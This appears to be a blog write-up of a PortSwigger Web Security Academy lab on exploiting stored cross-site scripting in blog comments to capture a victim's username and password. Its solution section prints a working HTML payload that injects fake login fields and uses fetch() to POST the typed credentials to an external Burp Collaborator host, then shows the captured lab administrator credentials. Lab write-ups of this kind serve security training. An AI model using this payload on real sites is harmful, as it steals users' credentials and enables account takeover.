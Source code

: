 ```yaml
---
layout: post
title:  "Exploiting cross-site scripting to capture passwords"
date:   2024-09-29 09:39:54 +0530
---
```


## Initial Information 

This lab contains a [stored XSS](https://portswigger.net/web-security/cross-site-scripting/stored) vulnerability in the blog comments function. A simulated victim user views all comments after they are posted. To solve the lab, exploit the vulnerability to exfiltrate the victim's username and password then use these credentials to log in to the victim's account.


## Things to Remember 

<p>
    To prevent the Academy platform from being used to attack third parties, our firewall blocks interactions between the labs and arbitrary external systems. To solve the lab, you must use <mark>Burp Collaborator’s default public server</mark>.
</p>
<p>
    Some users will notice that there is an alternative solution to this lab that does not require Burp Collaborator. However, it is far less subtle than <mark>exfiltrating the cookie</mark>.
</p>



## Solution

Same as like what we saw in [Exploiting cross-site scripting to steal cookies](Exploiting cross-site scripting to steal cookies.md) where the blog comment is vulnerable to XSS attack

  

![]({{ site.baseurl }}/assets/images/image%207.png)  

  

Now we will use the following payload to exfil the username and password and send it to our burp collaborator and one thing to note in our payload is we have `no-cors` in order to allow the cross origin requests through a POST request

  

```html
<input name=username id=username>
<input type=password name=password onchange="if(this.value.length)fetch('http://s2vt9769p5oun3xnh0d4x0kjpav6jw7l.oastify.com',{
method:'POST',
mode: 'no-cors',
body:username.value+':'+this.value
});">
```

  

Once after posting the payload as looking through the collaborator and recieved a HTTP pingback with the admin credentials 

  

![]({{ site.baseurl }}/assets/images/image%208.png)  

  

These are the credentials ( administrator:l3727agar6s0uz29al5h ) and Once we login with that, our lab is solved 

  

![]({{ site.baseurl }}/assets/images/image%209.png)